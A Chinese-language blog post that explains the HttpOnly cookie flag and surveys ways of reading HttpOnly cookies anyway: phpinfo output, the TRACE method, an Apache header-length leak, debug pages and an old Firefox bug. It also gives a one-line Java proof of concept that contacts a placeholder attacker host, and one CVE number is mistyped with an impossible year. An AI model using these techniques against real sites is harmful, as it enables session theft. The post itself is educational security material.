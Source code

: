 ```yaml
---
layout: post
title: "HttpOnly的那些事"
description: "HttpOnly的来源，发展和弱点"
category: web
published: 
tags: ["websecurity","xss"]
---
```

{% include JB/setup %}

### HttpOnly简介
故名思议，`HttpOnly`是指仅在`HTTP`层面上传输的`Cookie`，当设置了`HttpOnly`标志后，客户端脚本就无法读写该`Cookie`，这样能有效的防御`XSS`攻击。`HttpOnly`是由微软在`2002`年首先在`Internet Explorer 6 SP1`上实现。根据微软的[描述](http://msdn2.microsoft.com/en-us/library/ms533046.aspx)，`HttpOnly`是`HTTP Set-Cookie`头中的一个附加标志，下面的例子就是一个头信息中设置了`HttpOnly Cookie`。
    Set-Cookie: USER=123; expires=Wednesday, 09-Nov-99 23:12:40 GMT; HttpOnly
目前，基本上所有的浏览器和web框架都支持`HttpOnly`。
<!--more-->

### 得到HttpOnly Cookie
##### phpinfo信息
`phpinfo`页面可以包含了`cookie`信息，其中同样存在`HttpOnly Cookie`，如下图。
![phpinfo()信息](http://dl.zzsec.org/u/79944785/Blog/Pictures/2013-03-25-01.png)
##### 支持TRACE方法的服务器
`Apache`支持的一个`Header`是`TRACE`，`TRACE`一般是用于调试，他会将请求头作为`HTTP Response Body`返回。利用这个特性，可以把`HttpOnly Cookie`读出来。不过目前各厂商已经禁止通过`Ajax`发送`TRACE`请求。
##### CVE-2012-0053
`Apache 2.2.x`多个版本没有严格限制`HTTP`请求头信息，`HTTP`请求头信息超过`LimitRequestFieldSize`长度时，服务器返回`400`错误，并在返回信息中将出错的请求头内容输出。利用这个特性，可以得到`HttpOnly Cookie`。
##### Django等一些web框架的调试页面
开启了调试模式的一些框架，会将程序的信息输出，其中就有`Cookie`信息。
##### CVE-3009-0357
`Firefox <= 1.9.1`在处理`HttpOnly Cookies`时存在bug，通过`getResponseHeader()`得不到`HttpOnly Cookie`，但是通过`getAllResponseHeaders()`可以得到。
##### Java getHeaderField
POC:
    alert(new java.net.URL('http://attacker.in/xss/cookie.php').openConnection().getHeaderField('set-cookie'));

### 参考
1. [https://www.owasp.org/index.php/HttpOnly](https://www.owasp.org/index.php/HttpOnly)
2. [http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
3. [https://bugzilla.redhat.com/show_bug.cgi?id=785069](https://bugzilla.redhat.com/show_bug.cgi?id=785069)
4. [https://bugzilla.mozilla.org/show_bug.cgi?id=380418](https://bugzilla.mozilla.org/show_bug.cgi?id=380418)
